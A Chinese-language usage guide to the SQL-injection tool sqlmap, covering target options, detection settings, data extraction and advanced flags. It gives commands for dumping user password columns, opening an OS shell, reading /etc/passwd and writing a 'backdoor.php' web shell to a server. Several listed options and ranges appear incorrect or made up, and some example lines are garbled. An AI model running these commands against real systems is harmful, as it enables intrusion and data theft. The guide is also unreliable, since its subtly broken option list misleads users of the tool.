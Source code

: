 ## 目标指定参数

### 直接指定 URL

使用 `-u` 或 `--url` 参数指定包含参数的目标 URL，这是最基础的用法。

```bash
python sqlmap.py -u "http://example.com/index.php?id=1"
```

说明：该命令会对 URL 中的 `id=1` 参数进行自动检测，判断是否存在 SQL 注入漏洞。

### 从文件加载目标

当需要检测多个目标时，可将目标 URL 或请求信息写入文件，使用 `-m` 或 `--multiple-targets` 参数加载。

```bash
python sqlmap.py -m targets.txt
```

说明：`targets.txt` 文件中每行一个目标 URL（如 `http://example.com/index.php?id=1`），SQLmap 会依次检测。

### 指定 POST 请求目标

对于 POST 方式提交的参数（如表单提交），需使用 `--data`（数据）参数指定 POST 数据，同时用 `-u` 指定目标 URL。

```bash
python sqlmap.py -u "http://example.com/login.php" --data "username=admin&password=123"
```

说明：该命令会检测 POST 数据中 `username` 和 `password` 参数是否存在注入漏洞。若需模拟表单提交的 Content-Type，可搭配 `--data-type` 参数（如 `--data-type=json` 用于 JSON 格式数据）。

### 加载请求包（Repeater 导出）

若目标请求较复杂（如包含 Cookie、Referer 等头部信息），可在 Burp Suite 等工具中捕获请求后导出为文件，使用 `-r` 或 `--request` 参数加载。

```bash
python sqlmap.py -r request.txt
```

说明：`request.txt` 为 Burp 导出的原始请求包（包含请求行、头部、请求体），SQLmap 会自动解析其中的参数和头部信息进行检测。

### 其他目标形式

- `--cookie`：指定 Cookie 信息（适用于需登录的场景），：`--cookie "PHPSESSID=abc123; user=admin"`。
- `--user-agent`：模拟指定浏览器的 User-Agent 头部，：`--user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/118.0.0.0 Safari/537.36"`。
- `--proxy`：通过代理服务器检测（如搭配 Burp 抓包），：`--proxy "http://127.0.0.1:8080"`。

## 漏洞探测与配置参数

该类参数用于控制 SQLmap 的探测逻辑，包括注入类型、检测级别、数据库指纹等，可根据目标场景灵活调整。

### 指定注入点参数

当 URL 或请求中有多个参数时，可使用 `-p` 或 `--param` 参数指定需要检测的注入点，提高检测效率。

```bash
python sqlmap.py -u "http://example.com/index.php?id=1&page=2" -p id
```

说明：仅检测 `id` 参数，忽略 `page` 参数。

### 调整检测级别与风险

- `--level`：检测级别（1-5，默认 1），级别越高，检测的注入类型越全面，但耗时更长。级别 3 及以上会检测 Cookie、User-Agent 等头部参数的注入。
- `--risk`：风险级别（1-4，默认 1），级别越高，使用的 Payload 越具攻击性，可能导致目标数据库报错或数据损坏（如风险 3 会使用 UPDATE/DELETE 语句）。

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --level 3 --risk 2
```

说明：以级别 3 检测所有可能的参数（包括头部），使用风险级别 2 的 Payload。

### 指定数据库类型

若已知目标数据库类型，可使用 `--dbms` 参数指定，跳过指纹识别步骤，直接针对该数据库检测。支持的数据库类型包括 mysql、oracle、mssql、postgresql 等。

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --dbms mysql
```

说明：直接按 MySQL 数据库的特性进行注入检测。

### 注入类型控制

使用 `--technique` 参数指定注入技术类型，默认会自动检测所有类型，指定后可缩小范围。支持的类型缩写：

- B：布尔盲注（基于返回页面内容是否变化）
- T：时间盲注（基于返回时间是否延迟）
- E：报错注入（基于数据库报错信息获取数据）
- U：联合查询注入（基于 UNION SELECT 语句）
- S：堆叠查询注入（基于 ; 分隔多条 SQL 语句）
- Q：内联查询注入（基于子查询结果嵌入原始查询返回）

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --technique E,U
```

说明：仅使用报错注入和联合查询注入两种技术检测。

### 其他探测配置

- `--threads`：设置线程数（默认 1，最大 10），提高检测速度，：`--threads 5`。注意：线程数过高可能被目标网站封禁 IP。
- `--delay`：设置每个请求的延迟时间（单位：秒），避免请求过于频繁，：`--delay 1`（每 1 秒发送一个请求）。
- `--timeout`：设置请求超时时间（单位：秒，默认 30），：`--timeout 60`。

## 数据获取与利用参数

当检测到 SQL 注入漏洞后，可使用该类参数获取目标数据库的信息（如库名、表名、数据内容），甚至执行系统命令。

### 获取数据库基础信息

- `--current-db`：获取当前连接的数据库名称。
- `--current-user`：获取当前数据库用户名称。
- `--is-dba`：判断当前数据库用户是否为管理员（DBA）。
- `--dbs`：获取目标数据库服务器上的所有数据库名称。

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --current-db --current-user
```

说明：检测漏洞的同时，获取当前数据库名和当前登录用户。

### 获取表名与列名

- `--tables`：获取指定数据库中的所有表名，需搭配 `-D`（指定数据库）参数。
- `--columns`：获取指定表中的所有列名，需搭配 `-D` 和 `-T`（指定表名）参数。

```bash
## 获取 testdb 数据库中的所有表名
python sqlmap.py -u "http://example.com/index.php?id=1" -D testdb --tables

## 获取 testdb 数据库中 users 表的所有列名
python sqlmap.py -u "http://example.com/index.php?id=1" -D testdb -T users --columns
```

### 导出表中数据

使用 `--dump` 参数导出指定表中的数据，可搭配 `-D`、`-T`、`-C`（指定列名）参数缩小导出范围。

```bash
## 导出 testdb 数据库中 users 表的所有数据
python sqlmap.py -u "http://example.com/index.php?id=1" -D testdb -T users --dump

## 仅导出 users 表中 username 和 password 列的数据
python sqlmap.py -u "http://example.com/index.php?id=1" -D testdb -T users -C "username,password" --dump

## 导出前 10 行数据（避免数据量过大）
python sqlmap.py -u "http://example.com/index.php?id=1" -D testdb -T users --dump --start 0 --stop 9
```

### 执行系统命令与上传文件

当数据库用户为 DBA 且权限足够时，可通过 SQLmap 执行系统命令或上传文件，仅支持部分数据库（如 MySQL、SQL Server）。

- `--os-shell`：获取操作系统交互shell（需 DBA 权限，支持 MySQL、PostgreSQL 等）。
- `--os-cmd`：执行单条系统命令，：`--os-cmd "whoami"`。
- `--file-read`：读取目标服务器上的文件，：`--file-read "/etc/passwd"`（Linux）或 `--file-read "C:\Windows\system32\drivers\etc\hosts"`（Windows）。
- `--file-write`：上传本地文件到目标服务器，需搭配 `--file-dest` 指定目标路径，：`--file-write "local.php" --file-dest "/var/www/html/backdoor.php"`。该功能依赖数据库特定条件（如 MySQL 需`secure_file_priv`配置为空，且目标路径需有写入权限），并非所有支持`--os-shell`的数据库都能直接使用。

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --os-shell
```

说明：若权限足够，会生成一个交互shell，可执行 `ls`、`dir` 等系统命令。

## 高级功能参数

### 自定义 Payload

使用 `--payload` 参数指定自定义的 SQL 注入 Payload，适用于特殊场景下的漏洞利用。

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --payload "1 AND (SELECT 1 FROM users WHERE username='admin')=1"
```

### 保存与加载会话

对于耗时较长的检测任务，可使用 `--save` 保存会话状态，后续通过 `--load` 加载会话继续执行，避免重复检测。

```bash
## 保存会话到 session1 中
python sqlmap.py -u "http://example.com/index.php?id=1" --save session1

## 加载 session1 继续执行
python sqlmap.py --load session1
```

### 静默模式与日志输出

- `--silent`：静默模式，仅输出关键结果，减少冗余信息。
- `--log-file`：将检测过程和结果保存到日志文件，：`--log-file sqlmap.log`。